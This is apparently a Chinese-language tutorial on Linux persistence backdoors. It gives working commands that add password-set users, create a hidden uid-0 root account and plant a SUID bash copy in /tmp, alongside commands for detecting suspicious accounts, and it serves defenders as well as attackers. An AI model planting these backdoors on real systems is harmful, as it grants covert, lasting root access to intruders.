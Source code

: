 ## 第4篇：Linux权限维持--后门篇

本文将对Linux下常见的权限维持技术进行解析，知己知彼百战不殆。

**1、一句话添加用户和密码**

添加普通用户：

```
# 创建一个用户名guest，密码123456的普通用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest

# useradd -p 方法  ` ` 是用来存放可执行的系统命令,"$()"也可以存放命令执行语句
useradd -p "$(openssl passwd -1 123456)" guest
	
# chpasswd方法
useradd guest;echo 'guest:123456'|chpasswd
	
# echo -e方法
useradd test;echo -e "123456\n123456\n" |passwd test
```

添加root用户：

```
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```

可疑用户排查技巧：

```
# 查询特权用户特权用户(uid 为0)
[root@localhost ~]# awk -F: '$3==0{print $1}' /etc/passwd
# 查询可以远程登录的帐号信息
[root@localhost ~]# awk '/\$1|\$6/{print $1}' /etc/shadow
# 除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限
[root@localhost ~]# more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
```

**2、SUID Shell**

Suid shell是一种可用于以拥有者权限运行的shell。

```
配合普通用户权限使用
cp /bin/bash /tmp/shell
chmod u+s /tmp/shell
```

使用guest用户登录就可疑获取root权限。

![](.\image\privilege-5-1.png)
